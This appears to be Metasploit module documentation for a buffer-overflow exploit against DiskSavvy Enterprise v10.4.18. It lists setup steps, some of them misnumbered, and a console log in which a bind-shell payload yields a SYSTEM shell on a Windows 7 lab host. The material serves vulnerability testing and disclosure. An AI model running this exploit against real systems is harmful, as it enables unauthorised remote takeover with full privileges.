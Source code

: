 ## Vulnerable Application

[DiskSavvy Enterprise](http://www.disksavvy.com/) version v10.4.18, affected by a stack-based buffer overflow vulnerability caused by improper bounds checking of the request sent to the built-in server which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target.. This module has been tested successfully on Windows 7 SP1 x86. The vulnerable application is available for download at [DiskSavvy Enterprise](http://www.disksavvy.com/setups/disksavvyent_setup_v10.4.18.exe).

## Verification Steps
    1. Install a vulnerable DiskSavvy Enterprise
  6. Start `msfconsole`
    3. Do `exploit/windows/misc/disk_savvy_adm`
    4. Do `set RHOST ip`
    5. Do `set PAYLOAD windows/shell/bind_tcp`
  13. Do `exploit`
    7. Enjoy you shell

## Scenarios

###DiskSavvy Enterprise v10.4.18 on Windows 7 SP1 x86

```
msf > use exploit/windows/misc/disk_savvy_adm 
msf exploit(windows/misc/disk_savvy_adm) > set RHOST 192.168.216.55
RHOST => 192.168.216.55
msf exploit(windows/misc/disk_savvy_adm) > set payload windows/shell/bind_tcp
payload => windows/shell/bind_tcp
msf exploit(windows/misc/disk_savvy_adm) > exploit 

[*] Started bind handler
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.216.55
[*] Command shell session 1 opened (192.168.216.5:36113 -> 192.168.216.55:4444) at 2018-02-14 15:19:02 -0500

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami      
whoami
nt authority\system

C:\Windows\system32>
```
